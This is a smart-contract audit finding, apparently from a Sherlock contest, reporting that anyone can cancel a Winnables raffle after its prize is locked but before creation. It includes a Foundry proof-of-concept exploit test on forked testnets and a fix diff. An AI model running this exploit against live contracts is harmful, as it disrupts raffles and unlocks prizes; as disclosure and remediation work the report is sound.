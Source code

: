 Faithful Smoke Hawk

High

# Anyone can cancel a raffle before it is created upon receiving the raffleId message from ethereum

### Summary

The wrong return will cause raffle is canceled as attacker call `cancelRaffle`

### Root Cause

In `WinnablesTicketManager.sol:436`, there is a wrong return if `raffle.status` is `PRIZE_LOCKED`.
https://github.com/sherlock-audit/2024-08-winnables-raffles/blob/main/public-contracts/contracts/WinnablesTicketManager.sol#L436

### Internal pre-conditions

1. Role(0) call `lockNFT/lockETH/lockTokens`
2. The CCIP massage has been successfully transmitted to target chain

### External pre-conditions

1. Role(0) don't call `createRaffle`

### Attack Path

1. Attacker call `cancelRaffle`

### Impact

1. The raffle is canceled.
2. Players can't buy tickets.
3. The locked prize is unlocked.

### PoC

1. Install dependency: @chainlink/local.
```solidity
npm install @chainlink/local
```
2. Set .env.
```solidity
ETHEREUM_SEPOLIA_RPC=https://sepolia.gateway.tenderly.co
AVALANCHE_FUJI_RPC=https://avalanche-fuji.blockpi.network/v1/rpc/public
```
3. Paste code below into test/foundry folder.
```solidity
// SPDX-License-Identifier: UNLICENSED

pragma solidity 0.8.24;

import {Test} from "forge-std/Test.sol";

import {WinnablesTicketManager} from "../../contracts/WinnablesTicketManager.sol";
import {WinnablesTicket} from "../../contracts/WinnablesTicket.sol";
import {WinnablesPrizeManager} from "../../contracts/WinnablesPrizeManager.sol";

import {CCIPLocalSimulatorFork, Register} from "@chainlink/local/src/ccip/CCIPLocalSimulatorFork.sol";

contract TestCancelRaffle is Test {
    WinnablesTicketManager ticketManager;
    WinnablesTicket tickets;
    WinnablesPrizeManager prizeManager;

    CCIPLocalSimulatorFork public ccipLocalSimulatorFork;

    Register.NetworkDetails mainnetNetworkDetails;
    Register.NetworkDetails avalancheNetworkDetails;

    address admin = makeAddr("admin");
    address user = makeAddr("user");

    uint256 mainnetFork;
    uint256 avalancheFork;
    // Avalanche FUJI VRF config
    address vrfCoordinator = 0x5C210eF41CD1a72de73bF76eC39637bB0d3d7BEE;
    bytes32 keyHash = 0xc799bd1e3bd4d1a41cd4968997a4e03dfd2a3c7c04b695881138580163f42887;
    uint64 subscriptionId = 2828;

    function setUp() external {
        // fork
        mainnetFork = vm.createFork(vm.envString("ETHEREUM_SEPOLIA_RPC"));
        avalancheFork = vm.createFork(vm.envString("AVALANCHE_FUJI_RPC"));
        // ccip local
        vm.selectFork(mainnetFork);
        ccipLocalSimulatorFork = new CCIPLocalSimulatorFork();
        vm.makePersistent(address(ccipLocalSimulatorFork));
        mainnetNetworkDetails = ccipLocalSimulatorFork.getNetworkDetails(block.chainid);
        vm.selectFork(avalancheFork);
        avalancheNetworkDetails = ccipLocalSimulatorFork.getNetworkDetails(block.chainid);
        // deploy contracts
        // mainnet
        vm.selectFork(mainnetFork);
        vm.startPrank(admin);
        prizeManager = new WinnablesPrizeManager(mainnetNetworkDetails.linkAddress, mainnetNetworkDetails.routerAddress);
        ccipLocalSimulatorFork.requestLinkFromFaucet(address(prizeManager), 1 ether);
        vm.stopPrank();
        // avalanche
        vm.selectFork(avalancheFork);
        vm.startPrank(admin);
        tickets = new WinnablesTicket();
        ticketManager = new WinnablesTicketManager(
            avalancheNetworkDetails.linkAddress,
            vrfCoordinator,
            subscriptionId,
            keyHash,
            address(tickets),
            avalancheNetworkDetails.routerAddress
        );
        ticketManager.setCCIPCounterpart(address(prizeManager), mainnetNetworkDetails.chainSelector, true);
        ccipLocalSimulatorFork.requestLinkFromFaucet(address(ticketManager), 1 ether);
        vm.stopPrank();
    }

    function testCancelRaffle() public {
        vm.selectFork(mainnetFork);
        deal(address(prizeManager), 10 ether);
        vm.startPrank(admin);
        prizeManager.setCCIPCounterpart(address(ticketManager), avalancheNetworkDetails.chainSelector, true);
        // lockETH and send massage to destination chain
        prizeManager.lockETH(address(ticketManager), avalancheNetworkDetails.chainSelector, 1, 1 ether); // raffleId = 1
        vm.stopPrank();
        ccipLocalSimulatorFork.switchChainAndRouteMessage(avalancheFork);
        vm.selectFork(avalancheFork);
        assertEq(ticketManager.shouldCancelRaffle(1), true); // raffleId = 1
        vm.startPrank(user);
        // cancel raffle and send massage to source chain
        ticketManager.cancelRaffle(address(prizeManager), mainnetNetworkDetails.chainSelector, 1); // raffleId = 1
        vm.stopPrank();
        ccipLocalSimulatorFork.switchChainAndRouteMessage(mainnetFork);
    }
}
```
4. forge test

### Mitigation

When the raffle status is `PRIZE_LOCKED`, cancellation of the raffle is not allowed.
```diff
    function _checkShouldCancel(uint256 raffleId) internal view {
        Raffle storage raffle = _raffles[raffleId];
-       if (raffle.status == RaffleStatus.PRIZE_LOCKED) return;
        if (raffle.status != RaffleStatus.IDLE) revert InvalidRaffle();
        if (raffle.endsAt > block.timestamp) revert RaffleIsStillOpen();
        uint256 supply = IWinnablesTicket(TICKETS_CONTRACT).supplyOf(raffleId);
        if (supply > raffle.minTicketsThreshold) revert TargetTicketsReached();
    }
```